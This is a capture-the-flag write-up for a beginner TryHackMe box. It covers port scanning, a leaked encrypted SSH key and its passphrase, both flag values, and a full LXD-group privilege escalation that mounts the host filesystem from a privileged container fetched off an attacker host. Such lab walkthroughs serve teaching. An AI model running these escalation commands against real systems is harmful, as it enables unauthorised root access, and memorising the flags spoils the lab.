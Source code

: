 ###### An Easy Boot2Root box for beginners
Room: https://tryhackme.com/room/gamingserver
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xx.xxx  
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got a potentially username by checking the web main page source.
```
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
```

By navigating a bit around, we find the **/uploads** directory that leads to a **dict.lst** that seems like a list of passwords.  

The **/secret** directory is revealed via directory bruteforcing.  
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
9zlECjERSysbUKYccnFknB1DwuJExD/erGRiLBYOGuMatc+EoagKkGpSZm4FtcIO
IrwxeyChI32vJs9W93PUqHMgCJGXEpY7/INMUQahDf3wnlVhBC10UWH9piIOupNN
SkjSbrIxOgWJhIcpE9BLVUE4ndAMi3t05MY1U0ko7/vvhzndeZcWhVJ3SdcIAx4g
/5D/YqcLtt/tKbLyuyggk23NzuspnbUwZWoo5fvg+jEgRud90s4dDWMEURGdB2Wt
w7uYJFhjijw8tw8WwaPHHQeYtHgrtwhmC/gLj1gxAq532QAgmXGoazXd3IeFRtGB
6+HLDl8VRDz1/4iZhafDC2gihKeWOjmLh83QqKwa4s1XIB6BKPZS/OgyM4RMnN3u
Zmv1rDPL+0yzt6A5BHENXfkNfFWRWQxvKtiGlSLmywPP5OHnv0mzb16QG0Es1FPl
xhVyHt/WKlaVZfTdrJneTn8Uu3vZ82MFf+evbdMPZMx9Xc3Ix7/hFeIxCdoMN4i6
8BoZFQBcoJaOufnLkTC0hHxN7T/t/QvcaIsWSFWdgwwnYFaJncHeEj7d1hnmsAii
b79Dfy384/lnjZMtX1NXIEghzQj5ga8TFnHe8umDNx5Cq5GpYN1BUtfWFYqtkGcn
vzLSJM07RAgqA+SPAY8lCnXe8gN+Nv/9+/+/uiefeFtOmrpDU2kRfr9JhZYx9TkL
wTqOP0XWjqufWNEIXXIpwXFctpZaEQcC40LpbBGTDiVWTQyx8AuI6YOfIt+k64fG
rtfjWPVv3yGOJmiqQOa8/pDGgtNPgnJmFFrBy2d37KzSoNpTlXmeT/drkeTaP6YW
RTz8Ieg+fmVtsgQelZQ44mhy0vE48o92Kxj3uAB6jZp8jxgACpcNBt3isg7H/dq6
oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk
cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE
99x7Dh8YXnj1As2gY+MMQHVuvCpnwRR7XLmK8Fj3TZU+WHK5P6W5fLK7u3MVt1eq
Ezf26lghbnEUn17KKu+VQ6EdIPL150HSks5V+2fC8JTQ1fl3rI9vowPPuC8aNj+Q
Qu5m65A5Urmr8Y01/Wjqn2wC7upxzt6hNBIMbcNrndZkg80feKZ8RD7wE7Exll2h
v3SBMMCT5ZrBFq54ia0ohThQ8hklPqYhdSebkQtU5HPYh+EL/vU1L9PfGv0zipst
gbLFOSPp+GmklnRpihaXaGYXsoKfXvAxGCVIhbaWLAp5AybIiXHyBWsbhbSRMK+P
-----END RSA PRIVATE KEY----
```

The passphrase is **letmein**.  


**First flag, located at /home/john/user.txt, is a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e** **[1]**.  

I transfered LinPEAS to the target machine via a Pythoon HTTP server.    
Unfortunately, I couldn't find anything useful.   
As shown in **id** comand and by LinPEAS, we're member of LXD, which means we are in a docker.  

**On attacker machine**
```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

**On target machine**
```
wget http://attackerIP/Alpine_archieve.tar.gz
lxc image import [archieve-name.tar.gz] --alias [aliasName]
lxc image list -> to check if everything went ok. Should see the image.
lxc init [aliasName] [Machine_name] -c security.privileged=true
lxc list -> to see if the machine is created.
lxc config device add [machineName] host-root disk source=/ path=/mnt/root recursive=true
lxc start [machineName]
lxc exec [machineName] /bin/sh
```
As an example, I ran the following commands on the target machine  
```
lxc image import alpine-v3.14-x86_64-20211013_1759.tar.gz --alias alpine
lxc image list
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| alpine | 45ae64cf68f9 | no     | alpine v3.14 (20211013_17:59) | x86_64 | 3.10MB | Oct 13, 2021 at 3:11pm (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
lxc init alpine machine -c security.privileged=true
lxc list
+---------+---------+------+------+------------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+---------+---------+------+------+------------+-----------+
| machine | STOPPED |      |      | PERSISTENT | 0         |
+---------+---------+------+------+------------+-----------+
lxc config device add machine host-root disk source=/ path=/mnt/root recursive=true
lxc start machine
lxc list
+---------+---------+-----------------------+-----------------------------------------------+------------+-----------+
|  NAME   |  STATE  |         IPV4          |                     IPV6                      |    TYPE    | SNAPSHOTS |
+---------+---------+-----------------------+-----------------------------------------------+------------+-----------+
| machine | RUNNING | 10.229.116.209 (eth0) | fd42:2998:1e63:3d6f:216:3eff:fe86:75af (eth0) | PERSISTENT | 0         |
+---------+---------+-----------------------+-----------------------------------------------+------------+-----------+
lxc exec machine /bin/sh
~ # whoami
root
```
**~ # cat /mnt/root/root/root.txt**

**The second and final flag is at /mnt/root/root/root.txt and is 2e337b8c9f3aff0c2b3e8d4e6a7c88fc** **[2]**.  
